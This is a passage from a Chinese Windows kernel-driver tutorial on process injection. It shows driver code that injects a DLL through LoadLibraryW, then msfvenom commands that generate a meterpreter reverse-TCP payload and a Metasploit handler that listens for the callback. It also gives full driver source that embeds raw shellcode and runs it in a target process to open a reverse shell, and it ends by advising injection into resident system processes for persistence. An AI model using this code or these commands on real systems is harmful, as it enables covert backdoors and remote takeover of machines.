NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
  DbgPrint("Hello LyShark.com \n");

  ULONG process_id = 5200;
  DWORD create_size = 1024;
  DWORD64 ref_address = 0;

  // -------------------------------------------------------
  // 取模块基址
  // -------------------------------------------------------

  PVOID pLoadLibraryW = GetProcessAddress(process_id, L"kernel32.dll", "LoadLibraryW");
  DbgPrint("[*] 所在内存地址 = %p \n", pLoadLibraryW);

  // -------------------------------------------------------
  // 应用层开堆
  // -------------------------------------------------------

  NTSTATUS Status = AllocMemory(process_id, create_size, &ref_address);

  DbgPrint("对端进程: %d \n", process_id);
  DbgPrint("分配长度: %d \n", create_size);
  DbgPrint("分配的内核堆基址: %p \n", ref_address);

  // 设置注入路径,转换为多字节
  UCHAR DllPath[256] = "C:\\lyshark_hook.dll";
  UCHAR Item[256] = { 0 };

  for (int x = 0, y = 0; x < strlen(DllPath) * 2; x += 2, y++)
  {
    Item[x] = DllPath[y];
  }

  // -------------------------------------------------------
  // 写出数据到内存
  // -------------------------------------------------------

  ReadMemoryStruct ptr;

  ptr.pid = process_id;
  ptr.address = ref_address;
  ptr.size = strlen(DllPath) * 2;

  // 需要写入的数据
  ptr.data = ExAllocatePool(PagedPool, ptr.size);

  // 循环设置
  for (int i = 0; i < ptr.size; i++)
  {
    ptr.data[i] = Item[i];
  }

  // 写内存
  MDLWriteMemory(&ptr);

  // -------------------------------------------------------
  // 执行开线程函数
  // -------------------------------------------------------

  // 执行线程注入
  // 参数1：PID
  // 参数2：LoadLibraryW内存地址
  // 参数3：当前DLL路径
  BOOLEAN flag = MyCreateRemoteThread(process_id, pLoadLibraryW, ref_address);
  if (flag == TRUE)
  {
    DbgPrint("[*] 已完成进程 %d 注入文件 %s \n", process_id, DllPath);
  }

  DriverObject->DriverUnload = Unload;
  return STATUS_SUCCESS;
}
```

编译这段驱动程序，并将其放入虚拟机中，在C盘下面放置好一个名为`lyshark_hook.dll`文件，运行驱动程序将自动插入DLL到`Win32Project`进程内，输出效果图如下所示；



回到应用层进程，则可看到如下图所示的注入成功提示信息；



### 9.11 内核ShellCode实现线程注入

还记得`《内核LoadLibrary实现DLL注入》`中所使用的注入技术吗，我们通过`RtlCreateUserThread`函数调用实现了注入DLL到应用层并执行，本章将继续探索一个简单的问题，如何注入`ShellCode`代码实现反弹Shell，这里需要注意一般情况下`RtlCreateUserThread`需要传入两个最重要的参数，一个是`StartAddress`开始执行的内存块，另一个是`StartParameter`传入内存块的变量列表，而如果将`StartParameter`地址填充为`NULL`则表明不传递任何参数，也就是只在线程中执行`ShellCode`代码，利用这个特点我们就可以在上一篇文章的基础之上简单改进代码即可实现驱动级后门注入的功能。

 - 被控主机IP: 10.0.66.11
 - 控制主机IP: 10.0.66.22

为了能实现反弹后门的功能，我们首先需要使用`Metasploit`工具生成一段`ShellCode`代码片段，以32位为例，生成32为反弹代码。
```c
[root@localhost ~]# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=10.0.66.22 lport=9999 -f c

[root@localhost ~]# msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp \
-b '\x00\x0b' lhost=10.0.66.22 lport=9999 -f c
```

生成ShellCode代码片段如下图所示；



其次服务端需要侦听特定端口，配置参数如下所示；
```c
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set exitfunc thread
msf6 exploit(multi/handler) > set lhost 10.0.66.22
msf6 exploit(multi/handler) > set lport 9999
msf6 exploit(multi/handler) > exploit
```

服务端执行后则会进入侦听等待阶段，输出效果图如下所示；



此时我们使用如下代码片段，并自行修改进程`PID`为指定目标进程，编译生成驱动程序；
```c
#include "lyshark.h"

// 定义函数指针
typedef PVOID(NTAPI* PfnRtlCreateUserThread)
(
  IN HANDLE ProcessHandle,
  IN PSECURITY_DESCRIPTOR SecurityDescriptor,
  IN BOOLEAN CreateSuspended,
  IN ULONG StackZeroBits,
  IN OUT size_t StackReserved,
  IN OUT size_t StackCommit,
  IN PVOID StartAddress,
  IN PVOID StartParameter,
  OUT PHANDLE ThreadHandle,
  OUT PCLIENT_ID ClientID
);

// 远程线程注入函数
BOOLEAN MyInjectShellCode(ULONG pid, PVOID pRing3Address)
{
  NTSTATUS status = STATUS_UNSUCCESSFUL;
  PEPROCESS pEProcess = NULL;
  KAPC_STATE ApcState = { 0 };

  PfnRtlCreateUserThread RtlCreateUserThread = NULL;
  HANDLE hThread = 0;

  __try
  {
    // 获取RtlCreateUserThread函数的内存地址
    UNICODE_STRING ustrRtlCreateUserThread;
    RtlInitUnicodeString(&ustrRtlCreateUserThread, L"RtlCreateUserThread");
    RtlCreateUserThread = (PfnRtlCreateUserThread)MmGetSystemRoutineAddress(&ustrRtlCreateUserThread);
    if (RtlCreateUserThread == NULL)
    {
      return FALSE;
    }

    // 根据进程PID获取进程EProcess结构
    status = PsLookupProcessByProcessId((HANDLE)pid, &pEProcess);
    if (!NT_SUCCESS(status))
    {
      return FALSE;
    }

    // 附加到目标进程内
    KeStackAttachProcess(pEProcess, &ApcState);

    // 验证进程是否可读写
    if (!MmIsAddressValid(pRing3Address))
    {
      return FALSE;
    }

    // 启动注入线程
    status = RtlCreateUserThread(ZwCurrentProcess(),
      NULL,
      FALSE,
      0,
      0,
      0,
      pRing3Address,
      NULL,
      &hThread,
      NULL);
    if (!NT_SUCCESS(status))
    {
      return FALSE;
    }

    return TRUE;
  }

  __finally
  {
    // 释放对象
    if (pEProcess != NULL)
    {
      ObDereferenceObject(pEProcess);
      pEProcess = NULL;
    }

    // 取消附加进程
    KeUnstackDetachProcess(&ApcState);
  }

  return FALSE;
}

VOID Unload(PDRIVER_OBJECT pDriverObj)
{
  DbgPrint("[-] 驱动卸载 \n");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegPath)
{
  DbgPrint("Hello LyShark.com \n");

  ULONG process_id = 5844;
  DWORD create_size = 1024;
  DWORD64 ref_address = 0;

  // -------------------------------------------------------
  // 应用层开堆
  // -------------------------------------------------------

  NTSTATUS Status = AllocMemory(process_id, create_size, &ref_address);

  DbgPrint("对端进程: %d \n", process_id);
  DbgPrint("分配长度: %d \n", create_size);
  DbgPrint("分配的内核堆基址: %p \n", ref_address);

  // 设置注入路径,转换为多字节
  UCHAR ShellCode[] =
    "\xdb\xde\xd9\x74\x24\xf4\x5a\xbe\x12\x21\xe9\xef\x31\xc9\xb1"
    "\x59\x31\x72\x19\x83\xc2\x04\x03\x72\x15\xf0\xd4\x15\x07\x7b"
    "\x16\xe6\xd8\xe3\x26\x34\x51\x06\x2c\x33\x30\xf8\x26\x11\xb9"
    "\x73\x6a\x82\x4a\xf1\xa3\xa5\xfb\xbf\x95\x88\xfc\x0e\x1a\x46"
    "\x3e\x11\xe6\x95\x13\xf1\xd7\x55\x66\xf0\x10\x20\x0c\x1d\xcc"
    "\xe4\x65\xb3\xe1\x81\x38\x0f\x03\x46\x37\x2f\x7b\xe3\x88\xdb"
    "\x37\xea\xd8\xa8\x90\xcc\x53\xe6\x38\x5d\x65\x25\xbd\x94\x11"
    "\xf5\xf7\x17\x25\x8e\x3c\xd3\xd8\x46\x0d\x23\x76\xa7\xa1\xae"
    "\x86\xe0\x06\x51\xfd\x1a\x75\xec\x06\xd9\x07\x2a\x82\xfd\xa0"
    "\xb9\x34\xd9\x51\x6d\xa2\xaa\x5e\xda\xa0\xf4\x42\xdd\x65\x8f"
    "\x7f\x56\x88\x5f\xf6\x2c\xaf\x7b\x52\xf6\xce\xda\x3e\x59\xee"
    "\x3c\xe6\x06\x4a\x37\x05\x50\xea\xb8\xd5\x5d\xb6\x2e\x19\x90"
    "\x49\xae\x35\xa3\x3a\x9c\x9a\x1f\xd5\xac\x53\x86\x22\xa5\x74"
    "\x39\xfc\x0d\x14\xc7\xfd\x6d\x3c\x0c\xa9\x3d\x56\xa5\xd2\xd6"
    "\xa6\x4a\x07\x42\xad\xdc\xa2\x92\xf3\x0a\xdb\x90\xf3\x15\x14"
    "\x1d\x15\x09\x7a\x4d\x8a\xea\x2a\x2d\x7a\x83\x20\xa2\xa5\xb3"
    "\x4a\x69\xce\x5e\xa5\xc7\xa6\xf6\x5c\x42\x3c\x66\xa0\x59\x38"
    "\xa8\x2a\x6b\xbc\x67\xdb\x1e\xae\x90\xbc\xe0\x2e\x61\x29\xe0"
    "\x44\x65\xfb\xb7\xf0\x67\xda\xff\x5e\x97\x09\x7c\x98\x67\xcc"
    "\xb4\xd2\x5e\x5a\xf8\x8c\x9e\x8a\xf8\x4c\xc9\xc0\xf8\x24\xad"
    "\xb0\xab\x51\xb2\x6c\xd8\xc9\x27\x8f\x88\xbe\xe0\xe7\x36\x98"
    "\xc7\xa7\xc9\xcf\x5b\xaf\x35\x8d\x73\x08\x5d\x6d\xc4\xa8\x9d"
    "\x07\xc4\xf8\xf5\xdc\xeb\xf7\x35\x1c\x26\x50\x5d\x97\xa7\x12"
    "\xfc\xa8\xed\xf3\xa0\xa9\x02\x28\x53\xd3\x6b\xcf\x94\x24\x62"
    "\xb4\x95\x24\x8a\xca\xaa\xf2\xb3\xb8\xed\xc6\x87\xb3\x58\x6a"
    "\xa1\x59\xa2\x38\xb1\x4b";

  // -------------------------------------------------------
  // 写出数据到内存
  // -------------------------------------------------------

  ReadMemoryStruct ptr;

  ptr.pid = process_id;
  ptr.address = ref_address;
  ptr.size = strlen(ShellCode);

  // 需要写入的数据
  ptr.data = ExAllocatePool(NonPagedPool, ptr.size);

  // 循环设置
  for (int i = 0; i < ptr.size; i++)
  {
    ptr.data[i] = ShellCode[i];
  }

  // 写内存
  MDLWriteMemory(&ptr);
  ExFreePool(ptr.data);

  // -------------------------------------------------------
  // 执行开线程函数
  // -------------------------------------------------------

  // 执行线程注入
  // 参数1：PID
  // 参数2：LoadLibraryW内存地址
  // 参数3：当前DLL路径
  BOOLEAN flag = MyInjectShellCode(process_id, ref_address, 0);
  if (flag == TRUE)
  {
    DbgPrint("[*] 已完成进程 %d | 注入地址 %p \n", process_id, ref_address);
  }

  DriverObject->DriverUnload = Unload;
  return STATUS_SUCCESS;
}
```

编译并在客户端运行这个驱动程序，则会将`ShellCode`反弹后门注入到`PID=5844`进程内，输出效果图如下所示；



此时回到服务端程序，则可看到反弹`Shell`会话，输出效果图如下所示；



当然该方法也可注入自定义`ShellCode`代码，也可实现对某个游戏的`Call`调用功能等，上文中只是为了通用性而演示的一个案例，在真实的实战环境中，读者可以将代码注入到系统常驻进程上，这样系统启动后自动注入代码以此来实现长久的权限维持。
